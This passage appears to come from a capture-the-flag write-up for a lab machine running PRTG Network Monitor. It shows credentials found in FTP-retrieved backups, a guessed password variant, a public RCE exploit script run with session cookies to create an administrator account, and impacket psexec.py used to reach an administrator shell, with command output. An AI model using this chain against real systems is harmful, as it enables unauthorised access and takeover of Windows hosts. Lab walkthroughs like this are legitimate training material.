 ```bash
226 Transfer complete.
1153755 bytes received in 0.28 secs (3.9093 MB/s)
```

We know have the 3 backup files on our box, we read all of them at once and grep for the keyword `prtgadmin` as that is the user we need to login to the website. The site is running `PRTG Netowrk Monitor` This helped us find the files that where in the ftp.

```bash
cat * | grep -A 20 -B 20 "prtgadmin"
```

This brings back a long list of results, we filter through them and find the credentials:

```php
<dbpassword>
              <!-- User: prtgadmin -->
              PrTg@dmin2018
            </dbpassword>
```

We then login to the site with theese creds but however it doesnt work, we tinker with the password and change it to `PrTg@dmin2019` and it logs us in!

We now have access to another page which is running `PRTG Network Monitor` like the last page.

We search for exploits and after a bit of googling we find an exploit here --&gt; [https://github.com/M4LV0/PRTG-Network-Monitor-RCE](https://github.com/M4LV0/PRTG-Network-Monitor-RCE)

We then use the exploit like so:

```bash
./prtg-exploit.sh -u http://10.10.10.10 -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=XXXXXXXXXXXXXXXXXXXXXXXXXXXXX; _gat=1"
```

We replace all the values with our cookies from inspect element/network/cookies and we run the exploit.

It creates a new user called `pentest` with the password `P3nT3st!` as administrator for the box.

After we run the exploit we can simply login with psexec.py

```bash
kali@kali:~/boxes/netmon$ python3 /home/kali/impacket/examples/psexec.py pentest:'P3nT3st!'@netmon.htb
Impacket v0.9.22- Copyright 2020 SecureAuth Corporation

[*] Requesting shares on netmon.htb.....
[*] Found writable share ADMIN$
[*] Uploading file CxDBMiNZ.exe
[*] Opening SVCManager on netmon.htb.....
[*] Creating service NKCT on netmon.htb.....
[*] Starting service NKCT.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd ../..

C:\>cd Users
cd
C:\Users> Administrator

C:\Users\Administrator>cd Desktop

C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 684B-9CE8

```
